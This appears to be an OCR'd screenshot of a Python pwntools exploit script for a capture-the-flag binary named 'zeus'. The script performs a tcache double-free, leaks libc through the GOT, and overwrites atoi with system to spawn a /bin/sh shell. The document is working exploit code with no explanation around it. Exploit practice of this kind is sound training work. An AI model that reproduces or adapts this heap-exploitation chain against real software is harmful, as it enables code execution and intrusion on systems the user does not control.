 ```python
    libc = ELF('./libc-2.28-9dc614ec33ee0284064ec5535bda431c.so', checksec=False)
else:
    # r = process('/home/vagrant/ctf/cj/p11-zeus/zeus', aslr=False, env={'LD_PRELOAD':'./libc-2.28-9dc614ec33ee0284064ec5535bda431c.so'})
    # r = process('/home/vagrant/ctf/cj/p11-zeus/zeus', aslr=False)
    r = process('/home/vagrant/ctf/cj/p11-zeus/zeus')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
    gdb.attach(r, gdbcmd)

def insert(key, val):
    r.sendlineafter('>> ', '1')
    r.sendlineafter(': ', len(key).__str__())
    r.sendlineafter(': ', key)
    r.sendlineafter(': ', len(val).__str__())
    r.sendlineafter(': ', val)
    r.recvline(False)
    log.info(r.recvline(False))

def delete(key):
    r.sendlineafter('>> ', '2')
    r.sendlineafter(': ', key)
    log.info(r.recvline(False))

def lookup(key):
    r.sendlineafter('>> ', '3')
    r.sendlineafter(': ', key)
    r.recvuntil(': ')
    return r.recvline(False)

insert('A' * 8, 'a' * 8)
insert('B' * 8, 'b' * 8)

delete('B' * 8)
delete('A' * 8)
delete('B' * 8)

fake_list = p64(0x602078) # tcache_entries -> got
fake_list += p64(0x00400505) # key : str.malloc
fake_list += p64(0x602020) # value : reloc.puts
fake_list += p64(0) # next

insert('A' * 8, fake_list)

puts = u64(lookup('malloc').ljust(8, '\x00'))
libc.address = puts - libc.symbols['puts']
log.info(hex(libc.address))

insert('B' * 8, 'b' * 8)

payload  = p64(libc.symbols['realloc']) # realloc
payload += p64(libc.symbols['setvbuf']) # setvbuf
payload += p64(libc.symbols['system']) # atoi -> system
payload += p64(libc.symbols['exit']) # exit

insert('B' * 8, payload)

r.sendlineafter('>> ', '1')
r.sendlineafter(': ','/bin/sh')

# r.sendline('cat /var/flag/*')
# print r.recvline(False)

r.interactive()
```